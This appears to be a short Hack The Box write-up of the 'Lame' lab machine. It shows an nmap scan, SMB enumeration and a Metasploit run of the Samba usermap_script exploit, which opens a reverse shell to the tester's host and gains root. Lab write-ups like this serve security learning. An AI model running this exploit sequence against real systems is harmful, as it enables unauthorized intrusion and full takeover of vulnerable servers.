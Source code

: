 ```yaml
---
layout: post
title: Lame
date: 2020-03-30
author: the-bilal-rizwan
comments: true
categories: htb
tags: [Linux,htb]
---
```


## Lame writeup

Easy linux machine

![main]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Lame/main.png)


Let's do a quick nmap all ports

```perl

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:                                                                                                                                                                                        
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)                                                                                                                                             
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)                                                                                                                                        
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)                                                                                                                                       
|_smb2-time: Protocol negotiation failed (SMB2)                                 

```

<br>

### Enumeration

- Tried to enumerate using smbclient

![smb-enum]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Lame/smbclient.png)


Found nothing As you can see I also tried to put an exploit on the shared folder but no seed. Tried to enumerate the version of the SMB using metasploit

```perl

msf5 auxiliary(scanner/smb/smb_version) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf5 auxiliary(scanner/smb/smb_version) > run

[*] 10.10.10.3:445        - Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 10.10.10.3:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

### Exploitation

Found an exploit for the Samba version found. ran that and got a root shell



```perl
msf5 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > set lhost 10.10.14.3
lhost => 10.10.14.3
msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.3:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo jWLKJ2BffrrkAeob;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "jWLKJ2BffrrkAeob\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.3:4444 -> 10.10.10.3:33405) at 2020-03-30 03:39:07 -0400

id
uid=0(root) gid=0(root)

```
That's all pretty simple